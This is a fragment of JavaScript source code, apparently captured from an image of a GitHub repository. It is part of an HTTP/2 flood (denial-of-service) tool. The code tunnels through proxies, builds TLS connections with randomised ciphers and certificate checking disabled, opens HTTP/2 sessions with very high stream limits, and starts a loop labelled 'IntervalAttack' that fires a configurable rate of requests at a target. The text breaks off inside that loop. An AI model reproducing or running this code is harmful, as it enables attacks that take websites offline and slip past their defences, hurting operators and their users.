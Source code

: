      const proxyOptions = {
         host: parsedProxy[0],
         port: ~~parsedProxy[1],
         address: parsedTarget.host + ":443",
         timeout: 100,
     };

     Socker.HTTP(proxyOptions, (connection, error) => {
         if (error) return
 
         connection.setKeepAlive(true, 600000);

         const tlsOptions = {
            host: parsedTarget.host,
            port: 443,
            secure: true,
            ALPNProtocols: ['h2'],
            sigals: siga,
            socket: connection,
            ciphers: tls.getCiphers().join(":") + cipper,
            ecdhCurve: "prime256v1:X25519",
            host: parsedTarget.host,
            rejectUnauthorized: false,
            servername: parsedTarget.host,
            secureProtocol: "TLS_method",
        };

         const tlsConn = tls.connect(443, parsedTarget.host, tlsOptions); 

         tlsConn.setKeepAlive(true, 60000);

         const client = http2.connect(parsedTarget.href, {
             protocol: "https:",
             settings: {
            headerTableSize: 65536,
            maxConcurrentStreams: 2000,
            initialWindowSize: 65535,
            maxHeaderListSize: 65536,
            enablePush: false
          },
             maxSessionMemory: 64000,
             maxDeflateDynamicTableSize: 4294967295,
             createConnection: () => tlsConn,
             socket: connection,
         });
 
         client.settings({
            headerTableSize: 65536,
            maxConcurrentStreams: 2000,
            initialWindowSize: 6291456,
            maxHeaderListSize: 65536,
            enablePush: false
          });
 
         client.on("connect", () => {
            const IntervalAttack = setInterval(() => {
                for (let i = 0; i < args.Rate; i++) {
                    //headers[":path"] = parsedTarget.path + "?" + randstr(5) + "=" + randstr(25);
                    const request = client.request(headers)
                    